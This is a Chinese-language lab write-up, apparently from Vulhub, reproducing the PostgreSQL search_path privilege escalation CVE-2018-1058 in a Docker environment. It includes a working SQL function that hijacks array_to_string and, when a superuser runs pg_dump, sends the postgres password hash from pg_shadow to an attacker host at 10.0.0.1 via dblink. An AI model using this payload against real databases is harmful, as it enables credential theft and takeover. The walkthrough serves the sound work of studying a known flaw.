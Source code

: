 # PostgreSQL 提权漏洞 CVE-2018-1058

## 漏洞描述

PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

参考链接：

- https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058:_Protect_Your_Search_Path
- https://xianzhi.aliyun.com/forum/topic/2109

## 环境搭建

启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，将在本地开启PG默认的5432端口。

## 漏洞复现

Vulhub参考上述链接中的第二种利用方式，我们先通过普通用户`vulhub:vulhub`的身份登录postgres: `psql --host your-ip --username vulhub`

![img](images/1-168180309118051.png)

执行如下语句后退出：

```
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=10.0.0.1 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

然后我在`10.0.0.1`上监听5433端口，等待超级用户触发我们留下的这个“后门”。

（假装自己是超级用户）在靶场机器下，用超级用户的身份执行`pg_dump`命令：`docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub`，导出vulhub这个数据库的内容。

执行上述命令的同时，“后门”已被触发，`10.0.0.1`机器上已收到敏感信息：

![img](images/2-168180309118152.png)

上述过程仅是该漏洞的一种利用方法，涉及到机器比较多可能有点乱，建议读者阅读参考链接中的文章，获取更多利用方法。